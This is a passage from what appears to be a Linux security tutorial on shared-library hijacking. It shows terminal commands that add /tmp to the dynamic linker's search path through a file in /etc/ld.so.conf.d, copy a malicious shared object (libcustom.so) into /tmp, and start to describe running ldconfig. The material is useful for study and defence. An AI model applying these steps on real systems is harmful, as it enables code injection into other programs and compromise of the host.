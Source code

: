 ## Method #4: /etc/ldconfig.so.conf

Before continuing make sure that the environments variables that we used before are cleared:

```bash
low@ubuntu:~/so-files/evil$ echo $LD_LIBRARY_PATH

low@ubuntu:~/so-files/evil$ echo $LD_PRELOAD

low@ubuntu:~/so-files/evil$ 
```

The file `/etc/ld.so.conf` is a configuration file pointing to other configuration files that will help the linker to locate libraries. Read the directories listed in the ldconfig configuration file `/etc/ld.so.conf`:

```bash
low@ubuntu:~/so-files/evil$ ls -la  /etc/ld.so.conf
-rw-r--r-- 1 root root 34 Apr 14  2020 /etc/ld.so.conf
low@ubuntu:~/so-files/evil$ cat /etc/ld.so.conf
include /etc/ld.so.conf.d/*.conf

low@ubuntu:~/so-files/evil$ 
```

If we list the configuration files that are located in `/etc/ld.so.conf.d/` we can see a few:

```bash
low@ubuntu:~/so-files/evil$ ls -la /etc/ld.so.conf.d/
total 24
drwxr-xr-x   2 root root  4096 Aug 19 06:30 .
drwxr-xr-x 128 root root 12288 Dec 10 12:04 ..
-rw-r--r--   1 root root    44 Apr 14  2020 libc.conf
-rw-r--r--   1 root root   100 Apr 14  2020 x86_64-linux-gnu.conf
```

Create custom configuration file which points to the `/tmp` directory, which is a directory that low privileged users have write permissions on:

```bash
low@ubuntu:~/so-files/evil$ sudo vim /etc/ld.so.conf.d/shouldnt_be_here.conf
low@ubuntu:~/so-files/evil$ cat /etc/ld.so.conf.d/shouldnt_be_here.conf
/tmp
```

Since we have write permissions in the `/tmp` directory, we can place or write our malicious shared object there:

```bash
low@ubuntu:~/so-files/evil$ cp libcustom.so /tmp
low@ubuntu:~/so-files/evil$ ls -l /tmp/libcustom.so
-rwxrwxr-x 1 low low 16360 Dec 10 12:38 /tmp/libcustom.so
low@ubuntu:~/so-files/evil$ 
```

We now need to use **ldconfig** to update the linker’s cache so that it will be aware of this new evil library. The cache can be updated with the `ldconfig` command.

